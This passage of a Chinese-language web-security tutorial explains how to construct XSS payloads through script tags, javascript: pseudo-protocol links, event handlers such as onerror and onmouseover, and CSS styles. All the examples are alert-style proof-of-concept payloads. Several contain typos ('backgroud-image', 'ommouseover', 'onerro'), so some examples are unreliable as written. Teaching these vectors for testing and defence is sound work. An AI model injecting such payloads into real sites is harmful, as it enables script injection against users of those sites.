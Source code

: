 

# 四、XSS的构造及绕过方法

## 4.1、构造XSS

### 4.1.1、利用`<`、`>`构造HTML/JS语句

```
<script>alert(/xss/)</script>
<script>confirm('xss')</script>
<script>prompt('xss')</script>
```



### 4.1.2、伪协议

可以利用javascript:伪协议的方式构造XSS。

```
<a href="javascript:alert(/xss/)">touch me</a> 	//利用a标签的javascript:伪协议
<img src="javascript:alert(/xss/)" > 		    //利用img标签的javascript:伪协议
```



### 4.1.3、事件驱动

可以通过事件触发JS 函数，触发XSS。

- **Windows事件：**对Windows对象触发的事件
- **Form事件：**HTML表单内的动作触发事件
- **keyboard事件：**键盘按键，onkeydown(当按下按键时触发)、onkeyup(当松开按键时触发)
- **Mouse事件：**有鼠标或类似用户动作触发的事件，如ommouseover(鼠标悬停)、onclick(单击触发)
- **Media事件：**由多媒体触发的事件，onerro(文档载入失败时触发)

```
<img src='./smile.jpg' onmouseover='alert(/xss/)'>	//该标签会引入一张图片，然后鼠标悬停在图片上的时候，会触发XSS代码。
<img src='./smile.jpg' onerror='alert(/xss/)'>		//onerror会在文档载入失败时触发XSS，比如下一个语句
<img src='#' onerror='alert(/xss/)'>				//与上一个语句相比，将文件路径改成#，一定载入失败，触发XSS
<input type="text" onkeydown="alert(/xss/)">		//单行文本框的键盘点击事件，当点击键盘任一按键时触发XSS。
<input type="text" onkeyup="alert(/xss/)">
<input type="button" onclick="alert(/xss/)">
```



### 4.1.4、利用CSS

利用CSS（层叠样式脚本）触发XSS

```
// 行内样式
<div style = "backgroud-image:url(javascript:alert(/xss/))">

//页内样式
<style>Body{backgroud-image:url(javascript:alert(/xss/))}</style>

//外部样式
<link rel="stylesheet" type="text/css" href="./xss.css"><div>hello<div>

//其中xss.css文本内容如下
h1 {color:red;}
div{
	/*width:expression(alert(/xss/))*/
	backgroud-image:url(javascript:alert(/xss/))
}
@ expression
```